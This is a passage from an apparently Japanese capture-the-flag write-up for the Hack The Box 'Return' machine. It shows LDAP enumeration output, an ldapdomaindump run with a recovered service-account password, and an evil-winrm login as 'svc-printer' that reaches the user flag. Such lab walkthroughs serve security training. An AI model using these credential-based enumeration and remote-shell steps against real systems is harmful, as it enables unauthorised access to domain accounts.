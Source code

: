 ```sh

# search reference
ref: ldap://return.local/CN=Configuration,DC=return,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 9
# numEntries: 5
# numReferences: 3

```

ldapdomaindumpも実行する
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Return]
└─$ ldapdomaindump ldap://10.129.193.243 -u 'return\svc-printer' -p '1edFg43012!!' 
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

```

- `domain_users.html`
![](https://i.imgur.com/lWxcUvc.png)

- `domain_users_by_group.html`
	- svc_printerは、RemoteManagement usersであることがわかる
![](https://i.imgur.com/UCYraMh.png)

# Privilege Escalation

## WinRM
接続する
```sh
evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'
<SNIP>
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> dir


    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/12/2025  11:32 PM             34 user.txt
```
